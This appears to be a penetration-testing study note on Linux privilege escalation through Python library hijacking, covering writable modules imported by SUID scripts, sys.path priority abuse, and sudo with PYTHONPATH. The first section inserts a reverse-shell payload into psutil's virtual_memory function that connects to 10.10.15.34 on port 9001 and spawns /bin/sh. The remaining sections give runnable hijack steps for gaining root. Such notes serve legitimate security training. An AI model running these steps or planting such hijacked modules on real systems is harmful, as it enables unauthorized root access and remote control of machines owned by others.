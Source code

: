 Three basic vulnerabilities where hijacking can be used:
1. Wrong write permissions
2. Library Path
3. PYTHONPATH environmnet variable

## Wrong Write Permissions

If SUID/SGID permissions have been assinged to the Python script that imports a module with bad permissions, our code will automatically be included

**Python Script with SUID set
```shell-session
ls -l mem_status.py
```
- shows s as a permission

Say the Python script has this:
```shell-session
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```
- We notice it uses psutil for the virtual_memory() function

**Check if module has write permissions for us
```shell-session
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

**Insert right at the beginning of the function the hijacking
```shell-session
def virtual_memory():

	...SNIP...
	#### Hijacking
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.15.34", 9001))  # Replace with your IP and port
        os.dup2(s.fileno(), 0)  # stdin
        os.dup2(s.fileno(), 1)  # stdout
        os.dup2(s.fileno(), 2)  # stderr
        subprocess.call(["/bin/sh", "-i"])

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret
```

**Run script as sudo
```shell-session
sudo /usr/bin/python3 ./mem_status.py
```
- Now, we can put a reverse shell and run as root


## Library Path

Requirements:
1. The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable
2. We must have write permissions to one of the paths having priority on the list.

Python imports modules based on a priority list
```shell-session
python3 -c 'import sys; print("\n".join(sys.path))'
```

**Psutil Default Installation Location
```shell-session
pip3 show psutil
```

Based on this priority list, we find that /usr/lib/python3.8 is higher on the list than /usr/local/lib/python3.8/dist-packages and is also writable, so we meet the requirements.

**Create Hijacked Module Contents - psutil.py in /usr/lib/python3.8
```shell-session
#!/usr/bin/env python3

import os

def virtual_memory():
  os.system('id')
```
- The hijacked module must have the same name as the import and same function with correct amount of arguments in order to run

**Privilege Escalation via Hijacking Python Library Path
```shell-session
sudo /usr/bin/python3 mem_status.py
```

## PYTHONPATH Environment Variable

PYTHONPATH is an environment variable that indicates what directory Python can search for modules to import

**Check sudo permissions
```shell-session
sudo -l
```
- If /usr/bin/python3 can be run with sudo, we can do this

**Privilege Escalation using PYTHONPATH Environment Variable
```shell-session
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```
- We moved the previous python script from /usr/lib/python3.8 to /tmp
